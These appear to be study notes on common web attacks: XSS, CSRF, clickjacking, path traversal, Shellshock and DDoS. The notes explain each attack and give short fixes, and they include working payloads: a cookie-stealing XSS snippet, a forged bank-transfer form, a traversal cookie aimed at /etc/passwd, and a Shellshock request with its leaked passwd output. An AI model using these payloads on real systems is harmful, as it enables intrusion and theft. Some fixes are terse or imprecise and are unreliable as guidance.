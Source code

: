Security
-

#### A1 Injection

SQL Injection and whatnot.

#### Cross-Site Scripting (XSS)

Occur when:
data enters through an untrusted source;
dynamic content validation.

Categories: stored (database) and reflected (response includes some malicious input).

````
<b onmouseover=alert('Wufff!')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
// http://testsite.test/<script>alert("TEST");</script>
?>
````

FIX:

Filter input escape output.

Use `.innerText` instead of `.innerHtml`
The use of `.innerText` will prevent most XSS problems as it will automatically encode the text.

#### Cross-Site Request Forgery (CSRF)

AIM: Force end user to execute unwanted actions (submitting a malicious request)
on a web application in which they're currently authenticated.
Perform action on the victim's behalf.

````
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>

<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
````

FIX: CORS (if browser support CORS) or CSRF token.

#### ~~Clickjacking (UI redress attack)~~

The hacker can only send a single click.

For example, imagine an attacker who builds a web site that has a button on it that says "click here for a free iPod".
However, on top of that web page, the attacker has loaded an iframe with your mail account,
and lined up exactly the "delete all messages" button directly on top of the "free iPod" button.

FIX: Header `X-Frame-Options: DENY`.

#### Directory (path) traversal attack

AKA: ../ (dot dot slash) attack.
AIM: gain unauthorized access to the file system.

It is exploiting insufficient security validation / sanitization of user-supplied input file names.

````php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
   $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
````
````
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
````

FIX: Query string is usually URI decoded before use.

#### ~~Shellshock (bashdoor, CVE-2014-6271)~~

````sh
# CVE-2014-6271
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"

# CVE-2014-7169
env X='() { (a)=>\' bash -c "echo date"; cat echo

# CVE-2014-7186
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"

# CVE-2014-7187
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
````

````sh
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)

HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close
````

#### DDos (Denial-of-service)

A distributed DDoS is a cyber-attack where the perpetrator uses more than one unique IP address,
often thousands of them.

Distributed autoscale systems may try to cope with DDoS.
